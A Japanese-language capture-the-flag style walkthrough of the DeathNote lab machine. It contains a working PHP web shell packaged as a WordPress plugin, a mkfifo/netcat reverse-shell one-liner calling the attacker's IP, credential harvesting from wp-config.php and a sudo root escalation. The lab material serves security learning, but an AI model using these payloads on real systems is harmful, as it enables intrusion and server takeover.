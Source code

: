 ## DeathNote
### ポートスキャンまで同じ
- 22, 80

### Webサイトを見る
- IPアドレスでサイトを見るとdeathnote.vulnにリダイレクトされてサイトが見れないので、vimで以下のように書き換える
-  /etc/hostsを書き換える
  - `192.168.56.115  deathnote.vuln`
- ちなみにブラウザのリンクに直接`http://deathnote.vuln/wordpress/`を入力してもダメ 
- wordpressで作られているのがわかる
- サイトをよく見ると、`my fav line is iamjustic3`という言葉がある、これを訳すと何になる？

### wpscan
- `wpscan --url http://deathnote.vuln/wordpress/`
  - うまくいかなければ、ブラウザのhttpのとこのリンクをコピーしてくる
  - gobusterと異なりリンクを深く探す
- もしエラー出たら、updateなので一度ネットにつなげて更新する

### 興味深いURLにアクセスする
- `http://192.168.56.115/wordpress/wp-content/uploads`
  - こういうファイルが一覧で表示されるのをディレクトリリスティングと呼ぶ 
- `wget http://deathnote.vuln/wordpress/wp-content/uploads/2021/07/notes.txt`
- `wget http://deathnote.vuln/wordpress/wp-content/uploads/2021/07/user.txt`

### WordPressのユーザを列挙する
- `wpscan --url http://deathnote.vuln/wordpress/ --enumerate u`

### wordpressのログイン画面でログインを試みる
- `http://deathnote.vuln/wordpress/wp-login.php`
- user(kira),password(iamjustic3)はサイトに書いてあるので探してダッシュボードにログイン

### 404.phpに書き込んでリバースシェルする
- ハッキングラボ11でもやった、404.phpに書き込んでやるのをやってみるがfileのuploadができないので、ここでは使えない

### バックドア(実際は常時使えるリバースシェル)の設置を目指す
- なぜzipファイルをpluginすれば、リバースシェルできるのか謎。本には何も書いていない。searchsploitで見てもない
- banner.php
```
<?php
/*
Plugin Name: PHP Web Shell
Version: 1.0.0
Author: evil user
Author URI: http://hacking.lab
*/
?>
```
- cmd.php
```
<?php
echo system($_REQUEST['cmd']);
?>
```
- `ls`
  - `banner.php cmd.php` この２つのファイルがあるのを確認
- `zip evil banner.php cmd.php`
  - `evil`ができている     

### evil.zipを送り込む
- wordpressのダッシュボードのPluginsを選択します
- Add Newを押す,Upload Pluginを押す
- Browseを押してevil.zipを選択する
- install nowを押す。
- プラグイン一覧にPHP Web Shellが表示され、背景が青くなっていれば有効
- これでブラウザからOSコマンドインジェクションができる

### ブラウザからコマンドを実行する
- osコマンドインジェクションで`id`コマンドができることをテストする。
- `http://deathnote.vuln/wordpress/wp-content/plugins/evil/cmd.php?cmd=id`
  - パスにあるevilはuploadしたevil.zipファイルの名前
  - cmd.phpは圧縮前のファイル名
  - ?cmdはコードの中で指定したもの 
- 画面が切り替わって、idコマンドの実行結果が表示される。もし、ここで何も表示されなかったら、evil.zipが間違っているので戻る

### リバースシェルの待受をする
- `nc -nlvp 4444`

### リバースシェルのセッションを確立する
- 次のコードをメモか何かに書く、ipアドレスは自分のParrot側の
- `rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 192.168.56.101 4444 > /tmp/f`
- 上のをコピーする`https://www.urlencoder.org`でencodeしてコピー
- `http://deathnote.vuln/wordpress/wp-content/plugins/evil/cmd.php?cmd=~`
- `~`のところにエンコードしてコピーしたのを貼り付けてブラウザでアクセスするとシェルを取得できる
- 画面が真っ白になって、リバースシェルの待受に反応があれば成功 

### TTYシェルを奪取する
- インタラクティブシェルかを確認
  - `echo $-`
  - `i`が入っていればインタラクティブシェル 
- `python3 -c 'import pty; pty.spawn("/bin/bash")'`
### WordPressの設定ファイルを確認する
- `cd /var/www/deathnote.vuln/wordpress`
  - 設定ディレクトリはwordpressにある
- `ls`
- `cat wp-config.php`  
- データベースへのアクセスに必要な情報がある
  
### ユーザを切り替える
- 本来はSQLのユーザ名とパスワードだが使い回しているかもしれない
- `su l`

### システム内の探索
- /optディレクトリに怪しいディレクトリがある
- どこかに、`case.wav`があるので、サイトのCyberChefでキーワードがデコードされる

### 別のユーザに切り替える
- `su kira`
- password:`kiraisevil`
- さっきのキーワードがパスワード

### Base64でデコードする
- kiraのhomeにBase64でデコードされた暗号がある
- `cat kira.txt | base64 -d`

### sudoの確認
- `sudo -l`
- kiraは全知全能であることがわかる

### ルートシェルを奪取してフラグファイルを開く
- `sudo su`
- `cd root`
- `cat root.txt`
